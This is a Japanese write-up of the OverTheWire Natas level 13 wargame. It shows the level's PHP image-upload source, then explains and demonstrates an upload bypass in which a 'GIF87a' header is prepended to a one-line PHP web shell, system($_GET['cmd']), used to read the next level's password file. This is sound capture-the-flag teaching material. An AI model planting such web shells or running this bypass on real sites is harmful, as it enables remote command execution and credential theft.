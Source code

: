 ![](img/natas13-1.png)  

natas12と同じようなページ  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


natas12では、ファイルサイズをチェックしていたがファイル形式をチェックしていないことが原因で任意ファイルをアップロードできてしまう  
というのを利用して問題を解いた。  
natas13では、`} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {`のようにファイル形式が画像かどうかを  
チェックする処理が追加されている。  

exif_imagetype関数は" exif_imagetype() を画像の先頭バイトを読み そのサインを調べます。 "とPHPマニュアルで説明されている。  

例えばgif(87a)ファイルのファイルヘッダは16進数で"47 49 46 38 37 61"、  
ASCII表記で"GIF87a"であり、  
pngファイルだと"89 50 4E 47 0D 0A 1A 0A"の".PNG...."である。  

exif_imagetype関数はファイルヘッダしかチェックしないので先頭だけ変えた悪意のあるファイルをアップロードしたらOK（かも）  

今回はASCII表記で入力しやすいGIF形式のファイルで行う。  

前回の`<?php system($_GET["cmd"]);?>`に"GIF87a"を上の行に追加した以下のようなファイルを作成し、前回と同じやり方でアップロードを行う。  
```
GIF87a
<?php system($_GET["cmd"]);?>
```

クエリのパラメータから好きなコマンドを実行できるので`/etc/natas_webpass/natas14`をcatしてクリア
